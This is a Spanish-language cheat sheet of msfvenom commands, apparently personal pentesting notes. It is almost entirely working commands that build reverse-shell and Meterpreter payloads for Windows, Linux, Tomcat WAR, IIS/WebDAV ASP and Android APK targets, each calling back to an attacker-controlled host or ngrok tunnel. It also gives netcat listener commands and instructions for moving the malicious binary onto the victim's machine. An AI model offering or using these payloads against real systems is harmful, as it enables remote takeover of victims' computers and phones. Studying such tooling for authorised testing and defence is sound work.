 # Msfvenom 

Tags: #Msfvenom #WebDav #Tomcat 

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Windows Meterpreter

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura

❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > shell.exe
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

```bash 
❯ rlwrap nc -nlvp 443   # Nos ponemos en escucha por Netcat

# Ejecutamos el binario que subimos a Windows y ganamos acceso
```
### Linux Meterpreter

```bash 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

```bash 
❯ nc -nlvp 443

# Ejecutamos el binario que subimos a Linux y ganamos acceso
```
## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

## IIS - WebDAV

```bash 
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=1234 -f asp > shell.asp
	# p = PLayload 
	# f = Formato

❯ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.68.1 LPORT=1234 -f asp > shell.aspx
```

## Android APK

```bash 
❯ msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14015 -o msf.apk

	# p = Payload 
	# LHOST = Dominio de Ngrok
	# LPORT = Puerto de Ngrok (Se encuentra en el dominio de Ngrok)
	# o = Exportar como un 'APK'
```
